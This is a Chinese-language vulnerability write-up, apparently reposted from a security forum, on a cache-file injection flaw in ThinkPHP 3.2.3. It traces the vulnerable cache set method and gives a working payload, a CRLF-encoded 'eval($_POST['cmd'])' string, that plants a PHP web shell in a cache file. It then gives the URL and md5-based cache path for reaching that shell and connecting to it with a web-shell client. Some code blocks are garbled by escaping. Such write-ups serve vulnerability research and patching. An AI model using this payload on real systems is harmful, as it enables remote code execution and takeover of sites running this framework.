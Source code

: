 # Thinkphp 3.2.3 缓存漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3146](https://www.zhihuifly.com/t/topic/3146)

# Thinkphp 3.2.3 缓存漏洞

## 一、漏洞简介

## 二、漏洞影响

Thinkphp 3.2.3

## 三、复现过程

### 漏洞分析

*   直接跟进到`/Library/Think/Cache/File.class.php`文件，看到set方法：

    ```
    /**
         * 写入缓存
         * @access public
         * @param string $name 缓存变量名
         * @param mixed $value  存储数据
         * @param int $expire  有效时间 0为永久
         * @return boolean
         */
        public function set($name,$value,$expire=null) {
            N('cache_write',1);
            if(is_null($expire)) {
                $expire =  $this->options['expire'];
            }
            $filename   =   $this->filename($name);
            $data   =   serialize($value);
            if( C('DATA_CACHE_COMPRESS') && function_exists('gzcompress')) {
                //数据压缩
                $data   =   gzcompress($data,3);
            }
            if(C('DATA_CACHE_CHECK')) {//开启数据校验
                $check  =  md5($data);
            }else {
                $check  =  '';
            }
            $data    = "<?php\n//".sprintf('%012d',$expire).$check.$data."\n?>";
            //data参数经过序列化，直接被写到文件内。

    ```
     $result  =   file_put_contents($filename,$data);
        if($result) {
            if($this-&gt;options['length']&gt;0) {
                // 记录缓存队列
                $this-&gt;queue($name);
            }
            clearstatcache();
            return true;
        }else {
            return false;
        }
    } 
    ``` 
    ```

*   写一个调用缓存函数的的方法，运行一下。看看写进去什么

    ```
    <?php
    namespace Home\Controller;
    use Think\Controller;
    class IndexController extends Controller {

    ```
    public function index(){
        $a=I('post.a3');
        S('name',$a);
    } 
    ``` `}` 
    ```

*   在set方法下断点，访问 `http://www.0-sec.org/index.php/Home/Index/index.html` ，post数据：`a3=aaaa`

![image](img/f78275199bdebad36493f8c875ace51e.png)

可以看到$data参数经过序列化，直接写入php后缀的文件。F9运行可以看到，在`Application/Runtime/Temp/`文件夹下生成了php文件。

![image](img/30559eee1004e726bb6302e597e9e0d6.png)

*   写入到文件被行注释了。

*   `$data`参数未过滤`%0d%0a`可以用换行来绕过行注释，尝试post数据：

    `a3=%0d%0aeval($_POST['cmd']);%0d%0a//`

![image](img/7586a11d31704ec10a40de8c4b88c9c5.png)

*   之后用蚁剑连接成功

![image](img/c103aa5f4721cd7989b5b23f3b56a5fb.png)

### 总结

### Thinkphp3.2.3

1.  漏洞文件位置(一般审计得出)

    `http://www.0-sec.org/index.php/Home/Index/get?id=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件为缓存名的md5值，这里采用md5（name）=b068931cc450442b63f5b3d276ea4297

    `http://www.0-sec.org/Application/Runtime/Temp/b068931cc450442b63f5b3d276ea4297.php`

3.  之后蚁剑连接。

## 参考链接

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/)